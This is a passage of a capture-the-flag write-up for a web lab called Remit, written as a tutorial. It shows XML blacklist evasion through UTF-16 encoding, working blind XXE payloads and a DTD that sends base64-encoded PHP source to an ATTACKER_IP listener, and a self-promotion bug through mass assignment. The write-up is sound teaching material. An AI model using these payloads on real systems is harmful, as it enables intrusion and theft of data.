






Welcome back to another writeup! Today, I'll be walking through how I solved **Remit** from **WebVerse Pro**. Remit is classified as a **Master Difficulty** challenge, which is essentially the WebVerse equivalent of an *Insane* machine. This lab is packed with advanced web application exploitation concepts and requires chaining multiple vulnerabilities together to achieve full compromise.

Throughout this writeup, I'll break down my methodology, thought process, and the techniques used during the assessment. My goal is not only to show the intended path but also to explain *why* certain vulnerabilities exist and *how* they can be identified in real-world applications.

This writeup is primarily aimed at:

* Beginners looking to get into web application security
* Students preparing for practical penetration testing certifications
* Developers who want to better understand common web security mistakes
* Anyone interested in learning how advanced web exploitation chains are built

Some of the concepts covered may seem intimidating at first, but I'll do my best to explain them in a straightforward and beginner-friendly manner. If you're new to web security, don't worry if you don't understand everything immediately—the objective is to learn the methodology and develop the mindset needed to approach similar challenges in the future.

With that said, let's dive into Remit and start breaking it apart step by step.

| Target  | Starting access                                     | Result                                      |
| ------- | --------------------------------------------------- | ------------------------------------------- |
| `Remit` | Registered supplier account                         | Reviewer console access + command execution |
| Flag    | `WEBVERSE{00xml_bl1nd_**********************nj3ct}` | Captured                                    |

***

### Attack Chain at a Glance

Rather than one long chain of arrows, it's easier to think of this as **four phases**, each one unlocking the next:



Each phase is expanded with its own diagram in the matching section below.

> #### Concept deep dive: why "one vulnerability" is never the real story
>
> Notice that no single bug in this chain was catastrophic on its own:
>
> * A regex-based filter that misses one encoding — annoying, but not fatal by itself.
> * A form that accepts an extra field — sloppy, but limited to your own account.
> * A cookie that gets deserialized — bad practice, but only dangerous *if* there's a usable class sitting in memory.
>
> What makes this a full compromise is that **each weakness removes exactly the obstacle the next one needed**. The XXE gives you *read* access to source code. That source code hands you the *exact string* (`remit_reviewer`) the mass-assignment bug needs to be useful, and the *exact class* (`Archive`) the deserialization bug needs to become code execution. Take away any single link — patch the blacklist properly, or restrict `unserialize()` to arrays only — and the whole chain collapses, even though the other three "bugs" are technically still present.
>
> This is the core mental model professional pentesters use: **stop asking "is this exploitable?" and start asking "what does this give me, and what does the next thing need?"** A blind XXE that "only" lets you read files is often dismissed by inexperienced testers as low-severity. It almost never is, once you consider it as a source of intelligence for everything downstream.

***

### 1. Surface Discovery

The target exposed a single service redirecting to `remit.local`. Virtual-host brute forcing found a second, separate finance application — this is the door we need to eventually get through.



The key thing this diagram makes clear: **the same IP and port** serve both applications — nginx decides which one you reach purely from the `Host` header. That's why spoofing the header alone (without a valid session on that host) doesn't grant access — routing and authentication are two separate layers.

> #### Concept deep dive: virtual hosting and why it creates hidden attack surface
>
> HTTP was designed so that many completely different websites can live behind one IP address. When your browser connects, it doesn't just say "give me a webpage" — it says "give me a webpage, and by the way, here's the hostname I typed" via the `Host:` header. The web server (nginx here) reads that header and decides which application config to route the request into. This is called **name-based virtual hosting**, and it's how the overwhelming majority of the internet is served — one IP, dozens or thousands of distinct sites.
>
> The security implication: **DNS and vhost configuration are two independent things.** Just because `review.remit.local` doesn't resolve in public DNS, or isn't linked from anywhere in the public site, does not mean the *server* doesn't know how to route to it. The nginx config on the box has a `server_name review.remit.local { ... }` block sitting right next to the public one. If you can guess or brute-force the hostname and simply set the `Host:` header yourself (which `curl -H "Host: ..."` does, and which DNS/`/etc/hosts` also accomplishes), the server will happily route you there — it was never actually hidden, just not advertised.
>
> This is why vhost fuzzing (`ffuf ... -H "Host: FUZZ.domain"`) is a standard recon step: security-by-obscurity at the DNS layer is not security at the routing layer. The real access control has to happen *inside* the application (login, session, role checks) — and in this challenge, it does exist, just further down the chain, which is exactly why steps 2–4 were still necessary even after finding the hidden host.

An initial `ffuf` run produced hundreds of false-positive matches because the filter size (`-fs 145`) didn't match the actual "no vhost matched" response (`Size: 138`). Every non-matching request falls through to the same default nginx response, so an incorrect filter shows *everything* as a hit.

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.100.0.30/ -H "Host: FUZZ.remit.local" -c -fs 145
```

**Lesson:** always confirm the baseline "no match" response size with a throwaway hostname before trusting `-fs`, or use `-ac` for auto-calibration.

***

### 2. Baseline Invoice — Confirming the Format

Remit accepts `.xlsx` workbooks with a machine-readable UBL invoice embedded at `remit/ubl.xml`. A benign xlsx was built and uploaded to confirm the endpoint, form field name, and parsing behavior before attempting any payload.

Discovered via the portal page HTML (guessing `/upload` first returned a 404):

```
Endpoint: POST /invoices/upload
Field name: invoice
```

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ curl -v -b "PHPSESSID=<supplier_session>" -F "invoice=@baseline_invoice.xlsx" http://remit.local/invoices/upload
```

Response confirmed: `Received. Your invoice was queued for review.` — the invoice number `CTF-BASELINE-001` appeared correctly in the portal's invoice table.

***

### 3. The XML Blacklist and the UTF-16 Bypass

#### 3.1 Confirm the blacklist exists

A plain UTF-8 payload with a `<!DOCTYPE>` declaration was rejected:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Invoice [
  <!ENTITY canary SYSTEM "http://ATTACKER_IP:8000/canary.txt">
]>
<Invoice xmlns="urn:oasis:names:specification:ubl:schema:xsd:Invoice-2">
  <ID>&canary;</ID>
  <LegalMonetaryTotal>
    <PayableAmount currencyID="USD">1.05</PayableAmount>
  </LegalMonetaryTotal>
</Invoice>
```

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ curl -v -b "PHPSESSID=<supplier_session>" -F "invoice=@test_utf8_doctype.xlsx" http://remit.local/invoices/upload
```

Response:

```
Rejected: remit/ubl.xml contains unsupported XML declarations.
```

This confirmed a raw-byte regex blacklist, later recovered from source as:

```php
elseif (preg_match('/<!DOCTYPE|<!ENTITY/i', $xml)) {
    $err = 'Rejected: remit/ubl.xml contains unsupported XML declarations.';
}
```

#### 3.2 Bypass with UTF-16 encoding

The same payload, re-encoded as genuine UTF-16 (not merely declared as such), inserts null bytes between the ASCII keywords the regex is searching for — defeating the raw-byte check while remaining valid, parseable XML because of the encoding declaration and BOM.

```python
text = open("ubl_utf16_source.xml", encoding="utf-8").read()
payload = text.encode("utf-16")
```

Verified visually with `xxd`:

```
00000000: fffe 3c00 3f00 7800 6d00 6c00 2000 7600  ..<.?.x.m.l. .v.
00000010: 6500 7200 7300 6900 6f00 6e00 3d00 2200  e.r.s.i.o.n.=.".
```

Uploading the UTF-16 version returned `Received. Your invoice was queued for review.` and the invoice `ID` field came back **empty** — because `&canary;` resolved to nothing (the requested file didn't exist), proving entity substitution had occurred server-side. The listener confirmed the outbound request:

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ python3 -m http.server 8000
# 10.8.0.1 - - "GET /canary.txt HTTP/1.1" 404 -
```

This confirmed: blacklist bypassed, external entity expansion enabled, blind XXE with outbound SSRF-style callback capability.

> #### Concept deep dive: what an XML entity actually is, and why "external" ones are dangerous
>
> XML has a feature inherited from SGML called **entities** — essentially a text-substitution macro system built into the language itself, similar in spirit to `#define` in C. The classic, harmless use is predefined entities like `&amp;` (for `&`) or `&lt;` (for `<`), which let you include special characters in text without confusing the parser. But XML also lets *documents define their own entities* inside a `DOCTYPE` declaration:
>
> ```xml
> <!DOCTYPE root [
>   <!ENTITY greeting "Hello, world">
> ]>
> <root>&greeting;</root>
> ```
>
> Here, wherever `&greeting;` appears in the document, the parser literally substitutes in the string `Hello, world` before doing anything else with the content. This is called **entity expansion**, and it happens early, as a pre-processing step — the rest of the parser never even knows a substitution occurred.
>
> Now the dangerous part: entities aren't limited to inline string literals. They can be declared as **external**, meaning their content is fetched from somewhere else entirely:
>
> ```xml
> <!ENTITY greeting SYSTEM "http://example.com/greeting.txt">
> <!ENTITY leak SYSTEM "file:///etc/passwd">
> ```
>
> The `SYSTEM` keyword tells the parser "don't use a literal value — go fetch the content from this URI and use *that* as the substitution text." XML parsers historically supported this for legitimate purposes (pulling in shared boilerplate across many documents, like a distributed template system), and they support arbitrary URI schemes for it — `http://`, `https://`, `file://`, `ftp://`, and (crucially for PHP) `php://`.
>
> This means that if an application parses **attacker-supplied XML** and does not explicitly forbid external entity resolution, the attacker has effectively gained the ability to make the *server* fetch arbitrary URLs and/or read arbitrary local files, and then splice that content directly into the document being parsed. That's the entire XXE (XML External Entity) vulnerability class in one sentence: **untrusted XML input plus a parser configured to honor external entities equals server-side file read / SSRF, for free, with no further exploitation needed.**
>
> The two PHP/libxml flags that create this specific hole:
>
> * `LIBXML_DTDLOAD` — tells the parser it's allowed to load *external* DTD subsets (i.e., fetch `SYSTEM` URIs at all) rather than just processing the entities declared inline in the document.
> * `LIBXML_NOENT` — tells the parser to actually *substitute* entity references with their resolved content in the resulting DOM tree, rather than leaving `&entityname;` as a literal placeholder.
>
> Both together is what makes the read-and-splice-into-output behavior actually observable. Either flag alone is much less useful to an attacker (load-but-don't-substitute, or substitute-but-only-inline-entities). This is precisely why the remediation section recommends removing both.

#### 3.3 Turning read access into out-of-band exfiltration

> #### Concept deep dive: general entities vs. parameter entities, and why blind XXE needs a second trick
>
> There are actually **two separate entity namespaces** in XML DTDs, and mixing them up is the single most common reason people's XXE payloads silently fail to fire (as happened during this solve).
>
> **General entities** (declared as `<!ENTITY name "...">`, referenced as `&name;`) can only be used **inside the actual XML document body** — in element content or attribute values. They exist to build up the *document*.
>
> **Parameter entities** (declared as `<!ENTITY % name "...">`, referenced as `%name;`) can *only* be used **inside the DTD itself** — inside other entity/attribute/element declarations. They exist to build up the *DTD's own definitions*, letting one DTD generate or reference declarations dynamically.
>
> Why does this distinction matter here? Because in a **blind** XXE (where the application never reflects the entity's resolved value back to you in any visible response), you can't just do `<ID>&leak;</ID>` and read the result off the screen — there's nothing to read. You need the *server itself* to carry the stolen data somewhere you can observe, without your own eyes ever seeing it echoed back. That's an **out-of-band (OOB)** exfiltration technique, and because the entire trick happens by manipulating what the DTD declares (not what the document body contains), it has to be built entirely out of **parameter** entities.
>
> The working three-line DTD does the following, read top to bottom:
>
> ```xml
> <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php">
> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ATTACKER_IP:8000/leak?d=%file;'>">
> %eval;
> %exfil;
> ```
>
> 1. `%file` is declared as an external parameter entity whose *content* is the base64-encoded source of `index.php` (via the `php://filter` wrapper, explained next).
> 2. `%eval` is declared as a parameter entity whose *replacement text* is itself a snippet of DTD syntax — a *string* that, if it were parsed as DTD markup, would declare **yet another** parameter entity called `exfil`, whose `SYSTEM` URI embeds `%file;` (the base64 blob) as a query string parameter. Notice the `&#x25;` here — that's the character reference for `%`. It has to be escaped this way because at the point `%eval`'s *value* is being written out, we don't want the parser to try to expand a literal `%` immediately; we want the literal three characters `&`, `#`, `x25;`... which decode to a literal `%` character *only once this text is itself re-parsed as markup* in the next step.
> 3. `%eval;` — this reference is what actually triggers step 2's declaration to be parsed *as DTD markup* rather than treated as an inert string. This is the moment the inner `<!ENTITY % exfil SYSTEM '...'>` declaration actually comes into existence, with `%file;` already substituted into the URL by this point.
> 4. `%exfil;` — finally, referencing the newly-created `exfil` entity forces the parser to resolve *its* `SYSTEM` URI, which means: make an outbound HTTP request to your listener, with the stolen base64 data sitting right there in the URL's query string.
>
> This "entity that declares another entity" pattern is often called the **"entity within entity" trick**, and it's the standard technique for blind XXE OOB exfiltration everywhere it's taught (PortSwigger/Burp Academy, PayloadsAllTheThings, etc.) for exactly this reason — a single-request, general-entity-only payload has no mechanism to move stolen data anywhere observable when there's no reflection to read it from.

> #### Concept deep dive: what `php://filter` actually is, and why base64-wrap it
>
> PHP treats many of its I/O operations through an abstraction called **stream wrappers** — you can pass a string like `php://filter/...` or `file:///path` or `http://...` almost anywhere PHP expects a "resource" (fopen, include, and — relevant here — anywhere `libxml` resolves a `SYSTEM` URI, since PHP's XML extension is built on the same stream layer). `php://filter` is a special built-in wrapper that lets you **apply a filter to the underlying stream's data as it's read**, without needing separate code to do the transformation.
>
> The syntax is `php://filter/<filter-name>/resource=<actual-resource>` — meaning "open `<actual-resource>` normally, but pass every byte through `<filter-name>` first." `convert.base64-encode` is one such built-in filter: it takes whatever raw bytes come out of the underlying resource and re-encodes them as base64 text on the fly.
>
> Why is this useful here specifically? Two reasons:
>
> 1. **PHP source code is exactly the kind of file you'd want to leak, but you can't just `include`/execute it via a `file://` read** — if you naively point an entity at `file:///proc/self/cwd/index.php`, the *content* you get back is the literal PHP source text (fine), but if you tried to instead make the *server* execute it as PHP via a URL like `http://target/index.php`, you'd just get the rendered *output* of running that PHP, not the source itself. `php://filter` combined with `resource=` sidesteps this entirely: it treats the file as raw bytes to read, not as a script to execute.
> 2. **Binary/special-character safety in a text format.** The stolen content is about to be smuggled inside a URL query string (`?d=...`), which cannot safely contain arbitrary bytes — newlines, `&`, `%`, control characters, and non-ASCII bytes would all break the URL structure or get silently mangled by a naive HTTP client/server. Base64 re-encodes arbitrary bytes into a small, URL-safe-ish alphabet (letters, digits, `+`, `/`, `=`), guaranteeing the payload survives the trip intact. This is exactly why the walkthrough decodes it with a plain `base64 -d` at the other end — the encoding was purely a transport safety measure, not encryption or obfuscation.

Side by side, the difference between the blocked path and the working path comes down to one thing — whether the regex ever sees the keywords it's looking for:



The blacklist checks *bytes*; the parser understands *characters*. UTF-16 changes the byte layout without changing what the XML means — that gap is the entire bypass.

> #### Concept deep dive: bytes vs. characters, and why encoding is a security boundary
>
> This is one of the most important, most underrated ideas in web security: **text is not bytes**. A human reading `<!DOCTYPE` sees eight specific characters. A computer reading a file sees a sequence of bytes that get *interpreted* according to a character encoding — UTF-8, UTF-16, Latin-1, and dozens of others. The same eight characters can be represented by completely different byte sequences depending on which encoding is in play:
>
> * In **UTF-8**, `<!DOCTYPE` is exactly the bytes `3C 21 44 4F 43 54 59 50 45` — one byte per character, because these are all plain ASCII characters and UTF-8 is backward-compatible with ASCII for that range.
> * In **UTF-16**, every character is represented using (at least) two bytes, so the same text becomes `3C 00 21 00 44 00 4F 00 43 00 54 00 59 00 50 00 45 00` (or with the bytes swapped, depending on endianness) — the letters are still there, but interleaved with null bytes.
>
> A regex like `/<!DOCTYPE|<!ENTITY/i` operates on **raw bytes** (or at best, on the string as PHP naively interprets it, which for a `preg_match` on a byte string with no encoding awareness, is still bytes). It's looking for the *exact contiguous UTF-8 byte sequence*. When the file is actually UTF-16, that exact sequence never appears — instead you get the ASCII letters separated by `00` bytes, and `<!DOCTYPE` as a contiguous run of bytes simply isn't present anywhere in the file.
>
> But here's the crucial second half: **the XML parser doesn't have this blind spot.** XML documents are allowed to declare their own encoding in the prolog (`<?xml version="1.0" encoding="UTF-16"?>`), and well-formed UTF-16 text also typically starts with a Byte Order Mark (BOM, `FF FE` or `FE FF`) that unambiguously signals "this is UTF-16." `libxml` (the parsing library behind PHP's `DOMDocument`) reads that signal and correctly *decodes* the bytes back into the intended characters before parsing — meaning it sees `<!DOCTYPE` and `<!ENTITY` just fine, semantically, even though the raw bytes never matched the blacklist's naive byte-level search.
>
> **The general lesson: any security check that operates on a different representation than the thing it's ultimately protecting is a laundering opportunity.** This exact class of bug shows up constantly — WAFs bypassed by encoding tricks, SQL injection filters defeated by comment insertion or case variation, path traversal filters defeated by URL-encoding or double-encoding, and unicode normalization attacks where visually-identical characters from different scripts sail past a blacklist looking for specific code points. The fix is never "add another regex for the encoding I just thought of" — it's to validate using the **same engine that will ultimately act on the data** (here: configure the XML parser itself to refuse DTDs, rather than trying to out-guess it with string matching beforehand).

***

### 4. Blind XXE to Source Disclosure

Because the invoice `<ID>` field is small and not directly visible, out-of-band exfiltration via an external DTD and the `php://filter` wrapper was used to leak full PHP source files.

#### 4.1 First attempt — entity chain didn't fire

Initial DTD used a general entity for the leak step, which only resolves if referenced inside the document body:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php">
<!ENTITY % stage "<!ENTITY leak SYSTEM 'http://ATTACKER_IP:8000/leak?d=%data;'>">
%stage;
```

Result: the DTD itself was fetched (`GET /exfil.dtd` → 200), but no `/leak` callback ever arrived — `leak` was declared but never referenced anywhere that would trigger it.

#### 4.2 Working payload — nested parameter entities with character-reference escaping

The fix: make the inner entity a **parameter entity** (`%leak`, not `leak`), escape the `%` as `&#x25;` so the parser doesn't prematurely expand it while building the outer entity's replacement text, and add an explicit trigger reference at the end:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ATTACKER_IP:8000/leak?d=%file;'>">
%eval;
%exfil;
```

The UBL document referencing it:

```xml
<?xml version="1.0" encoding="UTF-16"?>
<!DOCTYPE Invoice [
  <!ENTITY % remote SYSTEM "http://ATTACKER_IP:8000/exfil.dtd">
  %remote;
]>
<Invoice xmlns="urn:oasis:names:specification:ubl:schema:xsd:Invoice-2">
  <ID>x</ID>
  <LegalMonetaryTotal><PayableAmount currencyID="USD">1.06</PayableAmount></LegalMonetaryTotal>
</Invoice>
```

Both requests landed correctly:

```
GET /exfil.dtd HTTP/1.1  -> 200
GET /leak?d=<base64 blob> HTTP/1.1  -> 404 (expected; capture is via access log)
```

#### 4.3 Decoding the leak

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ echo "<base64 blob>" | base64 -d
```

This recovered the full router (`index.php`), immediately revealing the application's file layout:

```php
<?php
require __DIR__ . '/inc/config.php';
require __DIR__ . '/inc/db.php';
require __DIR__ . '/inc/auth.php';
require __DIR__ . '/inc/chrome.php';

$path = parse_url($_SERVER['REQUEST_URI'] ?? '/', PHP_URL_PATH) ?: '/';
if ($path !== '/') { $path = rtrim($path, '/'); }

switch ($path) {
    case '/health':            echo 'ok'; break;
    case '/':                  require __DIR__ . '/inc/pages/home.php'; break;
    case '/how-invoices-work': require __DIR__ . '/inc/pages/docs.php'; break;
    case '/register':          require __DIR__ . '/inc/pages/register.php'; break;
    case '/login':              require __DIR__ . '/inc/pages/login.php'; break;
    case '/logout':             require __DIR__ . '/inc/pages/logout.php'; break;
    case '/portal':              require __DIR__ . '/inc/pages/portal.php'; break;
    case '/invoices/upload':   require __DIR__ . '/inc/pages/upload.php'; break;
    case '/account':             require __DIR__ . '/inc/pages/account.php'; break;
    default:
        http_response_code(404);
        require __DIR__ . '/inc/pages/notfound.php';
        break;
}
```

This gave a full map of the app. Most of it (auth, home, docs, register, logout) wasn't relevant to the exploit — only two files mattered for what came next:



The same technique (swap only the `resource=` path in the DTD, re-upload, re-check the listener) was repeated against `inc/pages/account.php`.

***

### 5. Mass Assignment: Supplier → Reviewer

Leaked source of `inc/pages/account.php`:

```php
<?php
// Supplier profile update.
//
// Binds the posted fields onto the supplier's own user row. ALLOWED lists the
// columns a profile edit may touch. `role` was added to this list when staff
// onboarding was briefly wired through this form (it set role to remit_reviewer
// for approved vendors), and was never taken back out - so a supplier can set
// their own role.
$user = require_login();

$msg = null;
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $ALLOWED = ['full_name', 'company', 'role'];
    $sets = [];
    $vals = [];
    foreach ($_POST as $k => $v) {
        if (in_array($k, $ALLOWED, true)) {
            $sets[] = "$k = ?";
            $vals[] = is_string($v) ? $v : '';
        }
    }
    if ($sets) {
        $vals[] = $user['id'];
        $sql = 'UPDATE users SET ' . implode(', ', $sets) . ' WHERE id = ?';
        remit_pdo()->prepare($sql)->execute($vals);
        $msg = 'Profile updated.';
    }
}
```

The developer comment gives away everything needed: the field is unrestricted, and the exact internal role string is `remit_reviewer`.

